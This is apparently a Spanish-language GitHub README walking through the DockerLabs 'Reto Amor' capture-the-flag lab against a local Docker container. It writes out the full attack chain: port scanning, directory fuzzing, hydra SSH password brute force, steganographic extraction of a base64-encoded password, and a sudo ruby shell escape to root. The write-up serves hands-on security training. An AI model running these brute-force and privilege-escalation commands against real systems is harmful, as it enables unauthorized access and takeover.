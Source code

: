 **Mayor DIEGO A. ESMERAL M.**

# 🧪 Reto Amor - DockerLabs

Este repositorio documenta el desarrollo completo del laboratorio **Reto Amor** de la plataforma [DockerLabs.es](https://dockerlabs.es/), nivel **Fácil**. El objetivo fue desplegar una máquina vulnerable en Docker, realizar tareas de reconocimiento, explotación y escalamiento de privilegios mediante herramientas de hacking ético.

---

## 📦 Requisitos Previos

- Kali Linux (actualizado)
- Docker instalado: `sudo apt install docker.io`
- Carpeta `amor` transferida al entorno Kali mediante `scp`.

---

## 🔧 Herramientas Empleadas

| Herramienta | Definición | Funcionalidad | Casos de uso |
|------------|------------|---------------|--------------|
| **Docker** | Plataforma de contenedores para ejecutar aplicaciones en entornos aislados. | Simula entornos virtuales ligeros. | Laboratorios, CI/CD, microservicios. |
| **scp** | Copia segura de archivos entre máquinas mediante SSH. | Transferencia recursiva de carpetas. | Envío de archivos/scripts entre hosts. |
| **netdiscover** | Herramienta ARP para descubrir IPs activas. | Muestra IP, MAC y fabricante. | Reconocimiento de red local. |
| **nmap** | Escáner de puertos y servicios. | Escaneo completo de red y servicios. | Pentesting, auditoría, fingerprinting. |
| **gobuster** | Fuerza bruta de directorios web. | Descubre rutas y archivos ocultos. | Enumeración web ofensiva. |
| **hydra** | Ataques de fuerza bruta contra servicios. | Prueba múltiples contraseñas/usuarios. | Auditoría de credenciales débiles. |
| **steghide** | Esteganografía en imágenes/audio. | Extrae/oculta archivos en JPG/WAV. | CTF, forense, comunicaciones ocultas. |
| **base64** | Codificación binaria a texto. | Decodifica datos encubiertos. | Mensajes ocultos, manipulación de datos. |

---

## 🛠️ Desglose de Comandos Utilizados

```bash
# 1. Transferir carpeta
scp -r amor kali@192.168.1.12:/home/kali/Documents/

# 2. Instalar Docker (si aplica)
sudo apt install docker.io

# 3. Desplegar máquina
cd Documents/amor
chmod +x auto_deploy.sh
./auto_deploy.sh amor.tar

# 4. Obtener interfaz de red
ip add

# 5. Escaneo de red en docker0
sudo netdiscover -i docker0 -r 172.17.0.0/24

# 6. Escanear puertos abiertos
sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2

# 7. Fuzzing web
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

# 8. Fuerza bruta SSH
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10

# 9. Acceso por SSH
ssh carlota@172.17.0.2

# 10. Buscar imagen
cd /carlota/Desktop/fotos/vacaciones

# 11. Descargar imagen a Kali
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor



# 12. Extraer contenido oculto
steghide extract -sf imagen.jpg

# 13. Decodificar mensaje oculto
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo

# 14. Escalada de privilegios
su oscar
sudo -l
sudo /usr/bin/ruby -e 'exec "/bin/bash"'

✅ Resultado Final
Al finalizar el laboratorio se logra:

Identificar servicios expuestos (22, 80).

Obtener acceso SSH por fuerza bruta.

Detectar archivo con datos esteganográficos.

Decodificar contraseña y escalar privilegios a root.

DIAGRAMA DE FLUJO

![Diagrama de Flujo](Diagramme%20AMOR.png)

